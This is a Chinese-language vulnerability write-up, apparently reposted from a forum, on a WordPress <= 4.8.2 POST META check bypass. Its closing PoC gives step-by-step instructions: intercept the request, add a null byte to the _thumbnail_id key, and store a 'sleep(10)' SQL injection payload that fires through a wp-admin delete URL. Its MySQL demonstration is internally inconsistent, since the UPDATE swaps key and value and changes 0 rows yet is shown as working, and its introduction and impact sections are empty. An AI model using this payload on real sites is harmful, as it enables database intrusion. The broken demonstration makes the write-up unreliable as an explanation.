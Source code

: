 # Wordpress <= 4.8.2 POST META 校验绕过漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3258](https://www.zhihuifly.com/t/topic/3258)

# Wordpress <= 4.8.2 POST META 校验绕过漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 一个MySQL的trick

1). 正常的条件查询语句

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 | _thumbnail_id  | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec) 
```

2). 现在我们将_thumbnail_id修改成”\x00_thumbnail_id”

```
mysql> update wp_postmeta set meta_key = concat(0x00,'TESTC') where meta_value = '_thumbnail_id';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 0  Changed: 0  Warnings: 0 
```

3). 再次执行第一步的查询

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 |  _thumbnail_id | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec) 
```

我们可以发现依然可以查询出修改后的数据。

### POST META 校验绕过

我们来看下检查meta_key的代码，文件./wp-includes/meta.php：

```
function is_protected_meta( $meta_key, $meta_type = null ) {
    $protected = ( '_' == $meta_key[0] );
    /**
     * Filters whether a meta key is protected.
     *
     * [@since](/since) 3.2.0
     *
     * [@param](/param) bool   $protected Whether the key is protected. Default false.
     * [@param](/param) string $meta_key  Meta key.
     * [@param](/param) string $meta_type Meta type.
     */
    return apply_filters( 'is_protected_meta', $protected, $meta_key, $meta_type );
} 
```

is_protected_meta函数只检查了$meta_key的第一个字符是否以_开头。我们有了2.1的MySQL trick，想要绕过meta_key的检查就显得容易多了。

### poc

```
添加自定义字段，meta_key为’_thumbnail_id’的meta_value为’55 %1$%s or sleep(10)#’
在添加自定义栏目/字段时抓包，将_thumbnail_id替换为%00_thumbnail_id
访问/wp-admin/edit.php?action=delete&_wpnonce=xxx&ids=55 %1$%s or sleep(10)#，触发SQL注入漏洞
参考 
```